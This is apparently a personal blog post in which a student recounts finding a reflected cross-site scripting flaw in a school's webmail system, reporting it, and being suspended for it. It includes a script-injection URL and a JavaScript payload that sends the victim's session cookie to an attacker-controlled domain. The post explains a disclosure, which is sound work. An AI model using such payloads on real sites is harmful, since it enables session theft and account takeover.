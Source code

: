 ```yaml
---
title: "I got suspended for doing the right thing"
publishedAt: 1656992369870
description: "And why no good deed goes unpunished."
tags: ["coding", "cybersecurity", "hacking"]
---
```


# The backstory

In typical American high schools, you are assigned an email address on your school's domain and allocated an inbox using something like GSuite or Microsoft office.
This same thing happened at my school, but we would use the in-house solution that I'll call XMail. The XMail interface was simple, a table with your emails and a button to send a new one. You get the idea.

<XMailTable />

The interesting part of this story came when I needed to send an email to one of my teachers. After hitting send, a banner appeared displaying the text "Email sent successfully". But something immediately caught my eye.
The way this worked was by modifying the URL to include a query parameter containing the banner text, like this `https://school.org/XMail?message=sent%20successfully`. This leads right into what the problem was.

# The vulnerability

In the various places I had worked, I tinkered around with security and knew what the best practices were for building websites. Which is why such a brazen display of injecting user input without serialization into a webpage made me curious right away. I immediately started tinkering around and found that by modifying this query parameter, you can put _anything_ you want in the banner, even HTML.
Something like `https://school.org/XMail?message=<script>alert("hi!")</script>` will prompt an alert on the page of whoever opens the link. This is a glaring problem.
Why? Because of something called a [Cross Site Scripting Attack (XSS)](https://owasp.org/www-community/attacks/xss/). The way this works is that an untrusted script is injected into an otherwise trusted site without the user's knowledge or consent.
In this situation, it means an attacker can send someone a link to XMail with a specially crafted payload encoded, and when the user clicks the link they'll be directed to XMail, but without knowing it, malicious code is running on their browser. This is especially dangerous because of the way the school website worked, where _session IDs were not stored in an [HttpOnly cookie](https://owasp.org/www-community/HttpOnly)_, allowing an attacker access to a user's cookies using `document.cookie`.
The attacker can then make a HTTP request to a remote server and send that cookie over, using an example payload encoded into the URL like this:

```javascript
fetch("http://someotherdomainIown.com/receive-cookies", {
  method: "POST",
  mode: "no-cors",
  body: document.cookie,
  headers: {
    "Content-Type": "application/x-www-form-urlencoded "
  }
});
```

With this session ID in hand, the attacker can then authenticate themselves as the user without them knowing. To them, they just clicked on a link that took them to their email, but to an attacker, they now have full access to their account. This meant someone could target a student, a teacher, or even a principal. Everyone was at risk.
This had the potential of costing the school district tens of thousands of dollars.

# The report

As soon as I confirmed my suspicions, I drafted an email to send to my Principal explaining the situation at hand and steps they could take to fix the vulnerability (all of the school JS files were unobfuscated). I sent it off thinking I had done my good deed for the day and headed to bed. I woke up on the following Monday as always, dreading going to school. For the most part, it was a normal day.
About halfway through the day, I was called down to the main office to meet with the Principal. It wasn't a shock to me, as I assumed they would want to follow up with me to get some additional information.  

This first meeting was nothing special, it consisted mainly of "How did you come across this?", "How did you figure this out?", and "Thanks for bringing this to our attention". That was that, and after some handshakes and some patting on the back, I went back to class.
I was then called down the following day, which immediately struck me as odd. I thought everything that needed to be said was said and that everyone would move on. I was asked to elaborate in more detail about the vulnerability, with the Principal scribing various notes on his notepad -- which should have tipped me off to be more careful about what I was telling him. Instead, as naive as I was, I told him the story again, with full honesty and transparency.
This was a lesson to me that when a person of authority is actively writing down everything you are saying, take a moment to figure out whether this is in your interest or not. Moving on, the meeting concluded and he thanked me once more for my cooperation. I went back to class and thought "okay, maybe that was just for record-keeping and now I can finally move on". This was where I was sorely mistaken.

# The day of judgment

The _next_ day, I was called down for the third time, which immediately let me know things were not okay. The Principal sat me down and said that while the school district was impressed with what I did, they wanted to pursue punishment for what they call a "violation of the student code of conduct".
It turns out, that the second I ran `https://school.org/XMail?message=<script>alert("hi!")</script>` in the URL bar, I was in direct violation of the Student Code of Conduct. While what I did was not explicitly outlined, they used what's called an "elastic clause". It essentially meant that the district reserved the right to punish any behavior that they deem unfavorable, even if it wasn't outlined in the code of conduct.
The district had some deliberation on what punishment they wanted to give me, and they landed on around 2-3 weeks of suspension and district computer privileges revoked.  

I was dumbfounded. I thought my creativity and knowledge were something to be appreciated, something to be thanked for, not something to be punished for. The district had actually suffered a data breach earlier in the year, and according to the local news, had spent over $10k in investigation, remediation, and cleanup efforts. In my eyes, I thought that I saved the district from going through the same thing once again. However, they were not on the same page.
Thankfully, my Principal was somewhat on my side. He rallied on my behalf to get me a less severe punishment. He was able to negotiate the punishment down to one day, which I was extremely grateful for. I didn't count it as a victory quite yet though. I began drafting a letter of appeal to the district's Board of Education with my AP Government teacher. However, that didn't go far as they essentially responded with "too bad, so sad".
In the end, I served that one day of suspension and completed more school work in that one day of suspension than I had in the past two weeks of regular school. One might call it a silver lining.

# The takeaway

This experience taught me a lot about responsible reporting procedures as I discussed the situation afterward with my mentors from Discord. In the future, if you suspect there's a vulnerability in a website, do the responsible thing and get in contact with the site's admin instead of trying it beforehand without clearance. To end this, I have no qualms with the school district.
However, the steps they took to punish me set a precedent for all the other students that it's a risky idea to go looking for bugs. I wish the best of luck to the next student in that school district who comes across a similar vulnerability.
